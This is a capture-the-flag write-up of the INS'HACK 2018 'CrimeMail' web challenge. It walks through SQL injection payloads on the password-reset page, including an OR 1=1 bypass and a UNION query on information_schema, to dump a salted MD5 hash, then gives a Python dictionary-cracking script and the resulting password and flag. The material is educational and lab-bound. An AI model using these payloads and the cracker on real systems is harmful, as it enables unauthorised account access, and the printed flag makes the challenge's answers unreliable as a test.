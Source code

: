 ```yaml
---
title: "INS'HACK 2018: CrimeMail (web)"
excerpt: Find a way into Collins Hackle's CrimeMail account
modified: 2018-05-01
---
```


Every year, the goods folks of [InSecurity INSA](http://insecurity-insa.fr/), an offensive computer hacking association, organize **INS'HACK**. If you guys aren't familiar with the event, held once a year in Lyon, France, I strongly suggest you to take a look [here](http://inshack.insecurity-insa.fr/). Who knows, maybe I'll see you at the next edition!

INS'HACK is split in two parts: first, 3 hand-picked high-quality cybersecurity conferences, the role was (extremeluy well) played this year by OVH, Mozilla, Orange and Certilience. And later in the evening, an on-site CTF! The infrastructure is no longer online as you probably guessed, but if you want to take a look at the challenges and their writeups, go to [our official GitHub repo](https://github.com/HugoDelval/inshack-2018).

As a part of the organizing team, I got to write some challenges for the event: namely [Self-congratulation](https://github.com/HugoDelval/inshack-2018/tree/master/misc/self-congratulation), [On whose authority](https://github.com/HugoDelval/inshack-2018/tree/master/network/on-whose-authority), and [CrimeMail](https://github.com/HugoDelval/inshack-2018/tree/master/web/crimemail). Today, we're here to talk about the latter, so don't go checking the solution just yet.

If you want to try and solve the challenge yourself, you can: you need to install a webserver of your choice along with PHP, and a MySQL database, then feed it the init.sql SQL script: you'll find what you need to serve in *server-files/app*, and the script in *server-files/conf*. Now, I realise asking you to NOT look at the content of these files will maybe not play well with the paranoid type, but if you want to solve it, reading the sources would make it too easy!

Let's jump into it! Let's take a look at this CrimeMail website, and the description of the challenge:

[![crimemail webpage]({{ site.url }}/assets/images/crimemail-inshack-2018.png)]({{ site.url }}/assets/images/crimemail-inshack-2018.png)

    Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.    
    Let's see if you can hack your way in his account...    
    Hint: his password's md5 is computed as follows: md5 = mdp($password + $salt) and Collins Hackle has a password which can be found in an english dictionary    

Okey, so we need to find some way to get in this Collins Hackle guy's email, and we're already left with a pretty big hint: the password is stored salted, but a dictionary-attack will be effective against it. So we can assume we'll have to find a way to steal the hash of the password along with the salt, then brute-force offline to find the password.

You probably already noticed the shady-looking "Lost your password" link. Let's go there:

[![lost your password crimemail]({{ site.url }}/assets/images/crimemail-lost-pw.png)]({{ site.url }}/assets/images/crimemail-lost-pw.png)

Let's try some basic SQL injection, by entering `' OR 1=1 -- a`:

[![basic sql injection crimemail]({{ site.url }}/assets/images/crimemail-basic-sqli.png)]({{ site.url }}/assets/images/crimemail-basic-sqli.png)

Bingo! The webpage displays the result of our query. Easy enough! We can now explore the database a bit, starting by extracting the name of the tables. On MySQL and SQL Server you have access to the *information_schema* table, where we can find all the metadata we're looking for. For example: `' UNION SELECT table_name FROM information_schema.tables -- a`:

[![find tables sql injection crimemail]({{ site.url }}/assets/images/crimemail-tables-sqli.png)]({{ site.url }}/assets/images/crimemail-tables-sqli.png)

That "users" table look like exactly what we need. Digging a little deeper you'll quickly find that its columns are *username*, *pass_md5*, *pass_salt* and *hint*. Here we're interested in the Collins Hackle account, and by displaying them, the username seems to be "c.hackle", the corresponding salt is "yhbG" and the hash is "f2b31b3a7a7c41093321d0c98c37f5ad".

Let's get cracking! The easy way is to find the password locally, now that you have the hash. To do so, you can try using a software like John the Ripper, or write an exploit in your favorite programming language: this is what we'll do here. You need a file of passwords you'll try, and you know the password is in an english dictionary. So you probably already have everything you need on your local (Linux) install, in */usr/share/dict* or */var/lib/dict*.

In Python 3:

```python
#!/usr/bin/env python
import sys
import hashlib

if __name__ == "__main__":
    # print usage
    if len(sys.argv) != 4:
        print("usage: {} <salt> <md5_to_crack> <path_to_dictionary>".format(sys.argv[0]))
        sys.exit()

    # hash to crack and salt
    salt = sys.argv[1].strip()
    salt_encoded = str.encode(salt)
    md5_to_crack = sys.argv[2].strip()

    # read every word (1 per line) of dictionary
    with open(sys.argv[3]) as f:
        word = f.readline()
        count = 1
        while word:
            # status progress
            if count % 1000 == 0:
                print("We're at the word n°{}".format(count))

            # prepare the strings to be hashed
            word_encoded = str.encode(word.strip())
            to_be_hashed = word_encoded + salt_encoded

            # compute the md5 hash of word+salt
            computed_md5 = hashlib.md5(to_be_hashed).hexdigest()

            # if it's the same hash
            if computed_md5 == md5_to_crack:
                print("Password cracked! It's {}".format(word))
                sys.exit()

            # read next word
            count += 1
            word = f.readline()

    print("Nothing found :(")

```

And now, calling it with the two hashes we retrieved:

    ./cracker.py "yhbG" "f2b31b3a7a7c41093321d0c98c37f5ad" dictionary  
    We're at the word n°1000  
    We're at the word n°2000  
    We're at the word n°3000  
    ...  
    We're at the word n°35000  
    We're at the word n°36000  
    Password cracked! It's pizza  

Boom! The password is here, **pizza**. Congratulations, logging-in with these infos displays an email where Collins is telling a friend of his to meet him at INSHACK{s3cr3t\_l0ca1i0n}. There's your flag!

I was very pleased by how the challenge was received, we did a little feedback challenge towards the end of the CTF and CrimeMail was doing pretty well, even considered the best challenge of the CTF by some (I wouldn't go that far.. :p). So big thanks to the participating teams and as always, don't hesistate to contact me with any feedback or questions you may have.

